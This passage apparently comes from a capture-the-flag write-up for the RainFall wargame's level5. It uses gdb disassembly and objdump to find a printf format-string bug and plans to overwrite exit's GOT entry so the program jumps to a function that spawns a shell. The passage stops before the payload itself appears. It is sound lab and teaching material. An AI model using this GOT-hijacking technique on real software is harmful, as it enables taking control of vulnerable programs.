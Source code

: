 **Eureka Moment!**
- **Function `o()` calls `system("/bin/sh")`** - exactly what we need!
- **Address of function `o()`**: `0x80484a4`
- **Goal**: Redirect program execution to reach this hidden function

### 6. Understanding Current Program Flow
```bash
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp      # 536 bytes local buffer
   0x080484cb <+9>:     mov    0x8049848,%eax   # stdin
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp) # 512 bytes max
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax # buffer at ebp-0x208
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax 
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>  # FORMAT STRING VULN!
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>   # ⚡ HIJACK TARGET!
```

**The Strategy Emerges:**
- Normal flow: `fgets()` → `printf()` → `exit()` → program ends
- **Hijack target**: The `exit()` call at `0x080484ff`
- **Goal**: Make `exit()` jump to function `o()` instead of actually exiting

## GOT Hijacking Strategy - Understanding Dynamic Linking

### 7. How PLT/GOT Works (Educational Breakdown)
```bash
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838        # 🔍 GOT entry address!
   0x080483d6 <+6>:     push   $0x18
   0x080483db <+11>:    jmp    0x80483b0
```

**Understanding Dynamic Linking:**
```
Normal execution flow:
call exit@plt → jmp *0x8049838 → points to real exit() in libc

Our hijacking plan:
call exit@plt → jmp *0x8049838 → we overwrite this to point to o()!
```

### 8. Finding the GOT Entry (Professional Method)
```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049838 R_386_JUMP_SLOT   exit
```
